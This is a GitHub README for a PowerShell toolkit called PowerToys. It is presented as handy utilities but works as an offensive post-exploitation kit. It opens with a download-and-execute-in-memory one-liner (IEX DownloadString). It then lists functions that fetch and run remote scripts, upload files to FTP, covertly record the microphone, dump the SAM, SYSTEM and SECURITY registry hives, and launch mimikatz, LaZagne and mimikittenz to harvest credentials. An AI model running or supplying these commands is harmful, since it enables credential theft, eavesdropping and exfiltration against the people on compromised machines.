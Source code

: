 ![alt tag](https://raw.githubusercontent.com/maxpowersi/PowerToys/master/icon.png)
# PowerToys v1.0
PowerToys is a powershell collection of userfull functions like ftp upload, download functions, run in memory, unzip functions, etc. It is distributed under the GNU GPLv3 license. Before use a function, you must load the script in memory.
```
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/maxpowersi/PowerToys/master/powertoys.ps1")
```
## List of tools
### Download
This function download a file from an URL.
```
Download -url "https://example.com/file.txt" -outfile "c:\windows\temp\file.txt"
```
### DownloadScript
This function download and load in memory a powershell script from an URL.
```
DownloadScript -url "http://example.com/a.ps1" 
```
### Unzip
This function allows unzip a file in speficif folder.
```
Unzip -inputfile "myzip.zip" -outputfolder "c:\windows\temp"
```
### UploadFtp
This function allows upload a file to FTP server.
```
UploadFtp -address "192.168.0.1" -username "username" -password "password" -outputfile "/folder/file.txt" -inputfile "file.txt"
```
### RunVoiceRecord
This functions allows record from mic.
```
RunVoiceRecord -outputfile "C:\windows\temp\secret.wav" -seconds 120
```
### DumpHives
This functio dump sam, system and security from register hives.
```
DumpHives -outputfolder "C:/windows/temp"
```
### RunMitmp
This function download, and run mitmproxy, in the 8080 port.
```
RunMitmp
```
### RunLazagne
This function download, unzip, and run Lazagne.
```
RunLazagne
```
### RunMimikatz
This function download and run mimikatz from Powersploit.
```
RunMimikatz
```
### RunMimikittenz
This function download and run mimikittenz.
```
RunMimikittenz
```

